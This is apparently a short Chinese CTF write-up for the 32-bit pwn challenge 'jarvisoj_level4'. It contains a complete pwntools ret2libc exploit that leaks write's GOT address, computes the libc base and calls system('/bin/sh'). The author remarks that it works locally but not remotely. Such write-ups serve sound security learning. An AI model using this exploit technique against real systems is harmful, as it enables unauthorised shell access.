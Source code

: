 ```yaml
---
title: 'jarvisoj_level4'
date: 2024-01-02 13:00:00 +0800
categories: [ctf,pwn]
tags: [32bit,ret2libc]
---
```

![image-20240102230647469](../assets/img/old_imgs/image-20240102230647469.png)

- `32`位`libc`泄露
- `ret2libc`

1. 存在漏洞函数`vulnerable_function`变量`buf`存在溢出
2. 常规`32`位泄露`libc`

```python
from pwn import *
io = process('./level4')
#context.log_level = 'debug'
elf = ELF('./level4')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#io = gdb.debug('./level4','break vulnerable_function')
padding = b'A'*(0x88+0x4)
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['vulnerable_function'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.send(payload1)
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload2 = padding + p32(sys_addr) + p32(0) + p32(bin_sh_addr)
io.send(payload2)
io.interactive()
```

不知道为什么,本地打通了但是远程泄露的`libc`有点问题,打不通,还是菜
